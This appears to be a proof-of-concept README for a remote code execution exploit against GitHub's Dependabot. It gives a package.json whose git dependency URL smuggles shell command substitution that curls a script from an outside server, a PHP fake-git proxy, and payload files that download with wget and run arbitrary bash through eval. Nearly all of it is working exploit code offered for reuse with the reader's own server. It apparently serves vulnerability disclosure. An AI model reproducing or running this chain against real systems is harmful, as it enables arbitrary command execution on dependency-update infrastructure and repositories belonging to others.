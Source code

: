 # PoC for dependabot RCE

Please replace `mocos.ktichen` to your own server.

After the preparation, you can see your dependabot result from `https://github.com/<USER>/<REPO>/network/updates`

## Prepare GitHub Repository

Add following files:

`package-lock.json`
```
{
  "name": "javascript",
  "version": "1.0.0",
  "lockfileVersion": 2,
  "requires": true,
  "dependencies": {
    "tyage-sample-package": {
      "version": "4.0.0"
    }
  }
}
```

`package.json`
```
{
  "name": "javascript",
  "version": "1.0.0",
  "main": "index.js",
  "license": "MIT",
  "private": true,
  "dependencies": {
    "tyage-sample-package": "git+https://github.com.mocos.kitchen/github.com/$($(curl$IFS@mocos.kitchen:3000/bash.txt))$(ps)?/github.com/tyage/tyage-sample-package.git#semver:4.0.0"
  }
}
```

`.github/dependabot.yml` (add this file after you prepared the servers!)
```
---
version: 2
updates:
  - package-ecosystem: npm
    directory: "/"
    schedule:
      interval: daily
```

## Prepare Servers

Following servers required.

1. Fake git repository

`https://github.com.mocos.kitchen/github.com/...` should run this PHP file:

```php
<?php
if (!empty($input)) {
  // proxy request to https://github.com/tyage/sample-package.git/git-upload-pack
  $url = "https://github.com/tyage/sample-package.git/git-upload-pack";
  $context = ["http" => [
    "method" => "POST",
    "header" => [ "Content-Type: application/x-git-upload-pack-request" ],
    "content" => $input
  ]];
  if (!empty($_SERVER['HTTP_GIT_PROTOCOL'])) {
    $context["http"]["header"][] = "Git-Protocol: version=2";
  }
  $result = file_get_contents($url, false, stream_context_create($context));

  header("content-type: application/x-git-upload-pack-result");
  echo $result;

} else {
  // proxy request to https://github.com/tyage/sample-package.git/info/refs?service=git-upload-pack
  $context = ["http" => [ "header" => [] ]];
  if (!empty($_SERVER['HTTP_GIT_PROTOCOL'])) {
    $context["http"]["header"][] = "Git-Protocol: version=2";
  }
  $url = "https://github.com/tyage/sample-package.git/info/refs?service=git-upload-pack";
  $result = file_get_contents($url, false, stream_context_create($context));

  header("content-type: application/x-git-upload-pack-advertisement");
  echo $result;
}
```

2. Payload server

`http://mocos.kitchen:3000/bash.txt` return this:

```bash
eval `wget mocos.kitchen:3000/payload.txt; bash payload.txt`
```

`http://mocos.kitchen:3000/payload.txt` return this:

```bash
# you can run arbitrary OS command here
echo hello world
```
